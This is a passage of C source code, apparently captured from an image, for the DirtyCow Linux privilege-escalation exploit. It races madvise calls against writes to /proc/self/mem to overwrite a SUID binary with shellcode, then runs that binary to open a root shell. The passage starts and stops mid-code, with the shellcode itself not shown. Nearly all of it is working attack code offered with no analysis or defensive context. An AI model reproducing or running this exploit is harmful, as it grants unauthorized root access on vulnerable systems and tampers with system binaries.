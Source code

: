 ```
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++) {
        lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len);
    }
    printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
    char buf[sc_len];

    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary);
            break;
        }
 fclose(fp);
        sleep(1);
    }

    stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

    system(suid_binary);
}

int main(int argc,char *argv[]) {
    char *backup;

    printf("DirtyCow root privilege escalation\n");
    printf("Backing up %s.. to /tmp/bak\n", suid_binary);

    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    system(backup);

    f = open(suid_binary,O_RDONLY);
    fstat(f,&st);

    printf("Size of binary: %d\n", st.st_size);

    char payload[st.st_size];
    memset(payload, 0x90, st.st_size);
    memcpy(payload, sc, sc_len+1);

    map = mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```